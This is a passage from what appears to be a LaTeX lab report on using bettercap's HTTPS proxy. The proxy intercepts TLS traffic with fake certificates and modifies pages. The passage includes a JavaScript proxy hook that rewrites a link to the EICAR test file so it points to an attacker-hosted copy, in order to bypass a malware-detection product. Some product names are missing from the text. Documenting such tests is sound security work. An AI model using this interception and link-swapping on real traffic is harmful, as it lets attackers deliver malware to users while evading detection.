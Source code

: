 To host an  Proxy, bettercap makes it so that when https packets ( port: 443) pass through the machine, they will be redirected to a self hosted proxy where the  page will be decrypted, analysed (in this case through JavaScript), optionally modified, re-encrypted using fake certificates and then being sent to the client transparently.

\newpage

\subsection{Developing the Script}

Through the \verb|https.proxy.script| option, as cited earlier, it is possible to develop a small JavaScript code that interacts with various proxy functions\cite{proxy-functions}:

\begin{lstlisting}[language=JavaScript]{}
 // called when the script is loaded
function onLoad() {

}

// called when the request is received by the proxy
// and before it is sent to the real server.
function onRequest(req, res) {

}

// called when the request is sent to the real server
// and a response is received
function onResponse(req, res) {

}

// called every time an unknown session command is typed,
// proxy modules can optionally handle custom commands this way:
function onCommand(cmd) {
    if( cmd == "test" ) {
        /*
         * Custom session command logic here.
         */

        // tell the session we handled this command
        return true
    }
}
\end{lstlisting}

\newpage

In this case in order to bypass the Malware Detection in , a small script was created that replaces the URL of the malware on the external server with one of the same malware but located on the attacker's machine.

\begin{lstlisting}[language=JavaScript]{}
function onResponse(req, res){
        var body = res.ReadBody();
        //Checks if there's a link to eicar.com
        if ( body.indexOf('<a href="./eicar.com">') != -1){
            res.Body = body.replace('<a href="./eicar.com">',
            '<a href="http://192.168.3.10/eicar2.com">');
        }
}
\end{lstlisting}


